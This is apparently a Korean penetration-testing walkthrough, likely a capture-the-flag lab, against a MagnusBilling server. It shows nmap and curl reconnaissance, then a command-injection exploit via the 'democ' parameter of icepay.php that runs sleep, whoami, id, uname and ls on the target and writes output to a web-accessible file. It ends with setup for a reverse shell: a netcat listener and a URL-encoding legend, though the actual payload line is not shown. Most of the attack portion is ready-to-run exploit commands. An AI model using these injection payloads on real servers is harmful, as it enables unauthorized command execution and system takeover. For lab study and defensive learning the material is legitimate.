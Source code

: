    - 방화벽 또는 서비스 다운타임 가능성

2. **디렉토리 이뉴머레이션 실패**: gobuster 실행 중 연결 오류

## 🎯 다음 단계 액션 플랜

#### 1. 연결 상태 재확인

```bash
# 포트 상태 재확인
nmap -p 80,22,3306,5038 10.10.13.178
```

#### 2. 웹 서비스 접근성 테스트

```bash
# 웹 서버 응답 확인
curl -I http://10.10.13.178/
curl -I http://10.10.13.178/mbilling/

# robots.txt 내용 확인
curl http://10.10.13.178/robots.txt
```

#### 3. Command Injection 취약점 테스트

```bash
# 5초 지연되면 명령어가 실행된 것
time curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bsleep%205"
# 결과를 웹에서 접근 가능한 위치에 저장
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bwhoami%20%3E%20/var/www/html/mbilling/result.txt"

# 저장된 결과 확인
curl "http://10.10.13.178/mbilling/result.txt"

# 1단계: 기본 명령어 실행 테스트
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bwhoami"

# 2단계: 시스템 정보 수집
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bid"
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Buname%20-a"

# 3단계: 파일 시스템 탐색
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bls%20-la"
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test%3Bpwd"
```

#### 4. 리버스 쉘 시도

````bash
# 리스너 설정
nc -lvnp 4444
l: listen
v: verbose mode
n: numeric-only IP addresses
p: port number

# 리버스 쉘 시도
# %3B => ;    # 명령 구분
# %20 => 공백 # 스페이스
# %27 => '    # 작은따옴표
# %3E => >    # stdout
# %26 => &    # stderr 포함
# %2F => /    # 경로 구분
# %30 => 0    # stdin
# %31 => 1    # stdout
````
